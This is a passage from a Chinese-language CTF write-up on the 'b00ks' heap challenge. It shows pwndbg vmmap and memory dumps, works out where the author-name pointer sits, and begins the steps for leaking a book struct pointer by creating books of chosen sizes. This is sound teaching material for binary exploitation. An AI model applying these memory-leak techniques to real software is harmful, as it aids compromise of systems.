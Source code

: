 vmmap查看代码段的起始地址

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x555555554000     0x555555556000 r-xp     2000 0      /home/yutao/Desktop/b00ks
    0x555555755000     0x555555756000 r--p     1000 1000   /home/yutao/Desktop/b00ks
    0x555555756000     0x555555757000 rw-p     1000 2000   /home/yutao/Desktop/b00ks
    0x555555757000     0x555555778000 rw-p    21000 0      [heap]
    0x7ffff79e2000     0x7ffff7bc9000 r-xp   1e7000 0      /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7bc9000     0x7ffff7dc9000 ---p   200000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dc9000     0x7ffff7dcd000 r--p     4000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcd000     0x7ffff7dcf000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcf000     0x7ffff7dd3000 rw-p     4000 0      
    0x7ffff7dd3000     0x7ffff7dfc000 r-xp    29000 0      /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7fe0000     0x7ffff7fe2000 rw-p     2000 0      
    0x7ffff7ff8000     0x7ffff7ffb000 r--p     3000 0      [vvar]
    0x7ffff7ffb000     0x7ffff7ffc000 r-xp     1000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 29000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 2a000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
```

第一行就是代码段的范围。0x555555554000 --- 0x555555556000。

所以存放作者名指针的地址：0x555555754000 + 0x202018 = 0x555555756018

查看下：

```
pwndbg> x/16gx 0x555555756018
0x555555756018:	0x0000555555756040//地址	0x0000000000000000
0x555555756028:	0x0000000000000000	0x0000000000000000
0x555555756038:	0x0000000000000000	0x6161616161616161<=存放的字符串
0x555555756048:	0x6161616161616161	0x6161616161616161
0x555555756058:	0x6161616161616161	0x0000000000000000
0x555555756068:	0x0000000000000000	0x0000000000000000
0x555555756078:	0x0000000000000000	0x0000000000000000
0x555555756088:	0x0000000000000000	0x0000000000000000
```

**第二种方式**

使用pwngdb的search命令进行搜索：

```
pwndbg> search aaaaaaaaaaaaaaaaaaaaaaaaa
b00ks           0x555555756040 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
```



#### 2.泄露图书结构体指针

接下来泄露图书结构体指针，**输入命令c回到程序执行的界面**，创建图书：

1.  创建book1：
    -   book_size = 10
    -   book_name = book1_name
    -   description_size = 200
    -   description_size = book1_description
2.  创建book2：
    -   book_size = 0x21000 = 135168
    -   book_name = book2_name
    -   description_size = 135168
    -   description_size = book2_description
